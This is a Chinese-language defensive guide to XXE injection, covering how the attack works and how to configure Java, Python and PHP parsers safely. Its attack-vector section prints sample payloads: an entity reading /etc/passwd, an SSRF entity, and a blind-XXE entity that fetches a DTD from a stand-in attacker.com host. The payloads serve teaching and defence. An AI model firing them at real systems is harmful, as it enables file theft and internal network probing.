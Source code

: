 # XXE实体注入防御体系

## 1. 概述

### 1.1 定义
XXE（XML External Entity）实体注入是一种针对XML解析器的安全漏洞，攻击者通过构造恶意的XML文档，利用外部实体引用功能读取服务器上的敏感文件或执行远程请求，从而获取未授权的数据或造成服务拒绝。

### 1.2 背景
XML（可扩展标记语言）广泛应用于数据交换和配置文件。XML解析器在处理XML文档时，支持外部实体引用，这为XXE攻击提供了可能。随着Web服务（SOAP、RESTful API）的普及，XXE漏洞的潜在危害日益增加。

## 2. 原理与分类

### 2.1 原理
XXE攻击的核心在于利用XML解析器的外部实体处理机制。攻击者通过构造包含恶意外部实体的XML文档，诱使解析器加载并处理这些实体，从而实现以下目的：
- 读取服务器文件（如`/etc/passwd`）
- 发起SSRF（Server-Side Request Forgery）攻击
- 执行远程代码或造成服务拒绝

### 2.2 分类
根据攻击目标和利用方式，XXE攻击可分为以下几类：
1. **文件读取**：通过外部实体引用读取服务器上的敏感文件。
2. **SSRF攻击**：利用外部实体发起HTTP请求，探测内网服务或攻击第三方系统。
3. **拒绝服务（DoS）**：通过加载超大或无限递归的实体，耗尽服务器资源。
4. **盲注XXE**：在无直接回显的情况下，通过外带数据或时间延迟判断攻击是否成功。

## 3. 技术细节

### 3.1 外部实体声明
XML文档中，外部实体通过`<!ENTITY>`声明定义。例如：
```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```
上述代码定义了一个外部实体`xxe`，其内容为`/etc/passwd`文件的内容。

### 3.2 攻击向量
以下是一些常见的XXE攻击向量：
1. **文件读取**：
   ```xml
   <!DOCTYPE foo [
     <!ENTITY xxe SYSTEM "file:///etc/passwd">
   ]>
   <foo>&xxe;</foo>
   ```
2. **SSRF攻击**：
   ```xml
   <!DOCTYPE foo [
     <!ENTITY xxe SYSTEM "http://internal-server/secret">
   ]>
   <foo>&xxe;</foo>
   ```
3. **盲注XXE**：
   ```xml
   <!DOCTYPE foo [
     <!ENTITY % xxe SYSTEM "http://attacker.com/xxe.dtd">
     %xxe;
   ]>
   <foo>&xxe;</foo>
   ```
   其中，`xxe.dtd`包含恶意实体定义。

### 3.3 解析器行为
不同的XML解析器在处理外部实体时行为各异：
- **DOM解析器**：默认加载外部实体，易受XXE攻击。
- **SAX解析器**：可通过配置禁用外部实体。
- **StAX解析器**：默认不加载外部实体，但需注意配置。

## 4. 防御体系

### 4.1 禁用外部实体
最有效的防御方法是禁用XML解析器的外部实体处理功能。以下是一些常见语言的配置示例：

#### 4.1.1 Java (SAXParserFactory)
```java
SAXParserFactory factory = SAXParserFactory.newInstance();
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
SAXParser parser = factory.newSAXParser();
```

#### 4.1.2 Python (lxml)
```python
from lxml import etree
parser = etree.XMLParser(resolve_entities=False, no_network=True)
```

#### 4.1.3 PHP (libxml)
```php
libxml_disable_entity_loader(true);
```

### 4.2 输入验证与过滤
对用户输入的XML文档进行严格验证，过滤或转义特殊字符，防止恶意实体注入。

### 4.3 使用安全的替代方案
考虑使用JSON或其他更安全的数据格式替代XML，减少XXE攻击面。

### 4.4 配置Web服务器
在Web服务器层面，限制XML解析器的外部实体加载权限，防止敏感文件泄露。

### 4.5 安全编码实践
- 避免在代码中直接使用外部实体。
- 使用安全的XML库，并确保其配置正确。
- 定期进行安全审计和漏洞扫描。

## 5. 防御建议

### 5.1 安全配置
- 确保所有XML解析器默认禁用外部实体。
- 在生产环境中，严格限制外部实体的加载权限。

### 5.2 安全测试
- 定期进行XXE漏洞扫描和渗透测试。
- 使用自动化工具（如Burp Suite、OWASP ZAP）检测潜在漏洞。

### 5.3 安全意识
- 提高开发人员的安全意识，培训其识别和防御XXE攻击。
- 在代码审查中，重点关注XML处理逻辑的安全性。

### 5.4 应急响应
- 建立应急响应机制，及时发现和处理XXE漏洞。
- 在发生XXE攻击时，迅速隔离受影响的系统，修复漏洞并追溯攻击来源。

## 6. 总结
XXE实体注入是一种严重的安全威胁，可能导致敏感数据泄露、服务拒绝甚至远程代码执行。通过禁用外部实体、严格输入验证、使用安全替代方案和遵循安全编码实践，可以有效防御XXE攻击。安全从业人员应持续关注XXE漏洞的最新动态，及时更新防御策略，确保系统的安全性。

---

**参考文献**：
- OWASP XXE Prevention Cheat Sheet
- CWE-611: Improper Restriction of XML External Entity Reference
- XML External Entity (XXE) Processing - PortSwigger

---

*文档生成时间: 2025-03-11 17:27:11*
